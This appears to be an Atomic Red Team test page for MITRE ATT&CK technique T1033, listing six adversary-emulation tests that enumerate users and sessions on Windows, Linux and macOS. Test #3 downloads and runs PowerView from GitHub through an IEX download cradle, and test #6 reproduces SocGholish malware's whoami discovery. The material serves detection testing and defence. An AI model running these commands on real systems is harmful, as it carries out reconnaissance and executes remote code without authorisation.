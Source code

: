 # T1033 - System Owner/User Discovery

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1033)

<blockquote>Adversaries may attempt to identify the primary user, currently logged in user, set of users that commonly uses a system, or whether a user is actively using the system. They may do this, for example, by retrieving account usernames or by using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). The information may be collected in a number of different ways using other Discovery techniques, because user and username details are prevalent throughout a system and include running process ownership, file/directory ownership, session information, and system logs. Adversaries may use the information from [System Owner/User Discovery](https://attack.mitre.org/techniques/T1033) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Various utilities and commands may acquire this information, including <code>whoami</code>. In macOS and Linux, the currently logged in user can be identified with <code>w</code> and <code>who</code>. On macOS the <code>dscl . list /Users | grep -v '\_'</code> command can also be used to enumerate user accounts. Environment variables, such as <code>%USERNAME%</code> and <code>$USER</code>, may also be used to access this information.

On network devices, [Network Device CLI](https://attack.mitre.org/techniques/T1059/008) commands such as `show users` and `show ssh` can be used to display users currently logged into the device.(Citation: show_ssh_users_cmd_cisco)(Citation: US-CERT TA18-106A Network Infrastructure Devices 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - System Owner/User Discovery](#atomic-test-1---system-owneruser-discovery)

- [Atomic Test #2 - System Owner/User Discovery](#atomic-test-2---system-owneruser-discovery)

- [Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)](#atomic-test-3---find-computers-where-user-has-session---stealth-mode-powerview)

- [Atomic Test #4 - User Discovery With Env Vars PowerShell Script](#atomic-test-4---user-discovery-with-env-vars-powershell-script)

- [Atomic Test #5 - GetCurrent User with PowerShell Script](#atomic-test-5---getcurrent-user-with-powershell-script)

- [Atomic Test #6 - System Discovery - SocGholish whoami](#atomic-test-6---system-discovery---socgholish-whoami)

<br/>

## Atomic Test #1 - System Owner/User Discovery

Identify System owner or users on an endpoint.

Upon successful execution, cmd.exe will spawn multiple commands against a target host to identify usernames. Output will be via stdout.
Additionally, two files will be written to disk - computers.txt and usernames.txt.

**Supported Platforms:** Windows

**auto_generated_guid:** 4c4959bf-addf-4b4a-be86-8d09cc1857aa

#### Inputs:

| Name          | Description             | Type   | Default Value |
| ------------- | ----------------------- | ------ | ------------- |
| computer_name | Name of remote computer | string | localhost     |

#### Attack Commands: Run with `command_prompt`!

```cmd
cmd.exe /C whoami
wmic useraccount get /ALL
quser /SERVER:"#{computer_name}"
quser
qwinsta.exe /server:#{computer_name}
qwinsta.exe
for /F "tokens=1,2" %i in ('qwinsta /server:#{computer_name} ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > computers.txt
@FOR /F %n in (computers.txt) DO @FOR /F "tokens=1,2" %i in ('qwinsta /server:%n ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > usernames.txt
```

<br/>
<br/>

## Atomic Test #2 - System Owner/User Discovery

Identify System owner or users on an endpoint

Upon successful execution, sh will stdout list of usernames.

**Supported Platforms:** Linux, macOS

**auto_generated_guid:** 2a9b677d-a230-44f4-ad86-782df1ef108c

#### Attack Commands: Run with `sh`!

```sh
users
w
who
```

<br/>
<br/>

## Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)

Find existing user session on other computers. Upon execution, information about any sessions discovered will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** 29857f27-a36f-4f7e-8084-4557cd6207ca

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Invoke-UserHunter -Stealth -Verbose
```

<br/>
<br/>

## Atomic Test #4 - User Discovery With Env Vars PowerShell Script

Use the PowerShell environment variables to identify the current logged user.

**Supported Platforms:** Windows

**auto_generated_guid:** dcb6cdee-1fb0-4087-8bf8-88cfd136ba51

#### Attack Commands: Run with `powershell`!

```powershell
[System.Environment]::UserName | Out-File -FilePath .\CurrentactiveUser.txt
$env:UserName | Out-File -FilePath .\CurrentactiveUser.txt -Append
```

#### Cleanup Commands:

```powershell
Remove-Item -Path .\CurrentactiveUser.txt -Force
```

<br/>
<br/>

## Atomic Test #5 - GetCurrent User with PowerShell Script

Use the PowerShell "GetCurrent" method of the WindowsIdentity .NET class to identify the logged user.

**Supported Platforms:** Windows

**auto_generated_guid:** 1392bd0f-5d5a-429e-81d9-eb9d4d4d5b3b

#### Attack Commands: Run with `powershell`!

```powershell
[System.Security.Principal.WindowsIdentity]::GetCurrent() | Out-File -FilePath .\CurrentUserObject.txt
```

#### Cleanup Commands:

```powershell
Remove-Item -Path .\CurrentUserObject.txt -Force
```

<br/>
<br/>

## Atomic Test #6 - System Discovery - SocGholish whoami

SocGholish performs whoami discovery commands and outputs the results to a tmp file.
The test will generate a filename similar to the random one generated during execution and write the file to AppData\Temp.

Reference: https://redcanary.com/threat-detection-report/threats/socgholish/

**Supported Platforms:** Windows

**auto_generated_guid:** 3d257a03-eb80-41c5-b744-bb37ac7f65c7

#### Inputs:

| Name        | Description             | Type   | Default Value |
| ----------- | ----------------------- | ------ | ------------- |
| output_path | Location of output file | string | $env:temp     |

#### Attack Commands: Run with `powershell`!

```powershell
$TokenSet = @{
  U = [Char[]]'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
  N = [Char[]]'0123456789'
}
$Upper = Get-Random -Count 5 -InputObject $TokenSet.U
$Number = Get-Random -Count 5 -InputObject $TokenSet.N
$StringSet = $Upper + $Number
$rad = (Get-Random -Count 5 -InputObject $StringSet) -join ''
$file = "rad" + $rad + ".tmp"

whoami.exe /all >> #{output_path}\$file
```

#### Cleanup Commands:

```powershell
Remove-Item -Path #{output_path}\rad*.tmp -Force
```

<br/>
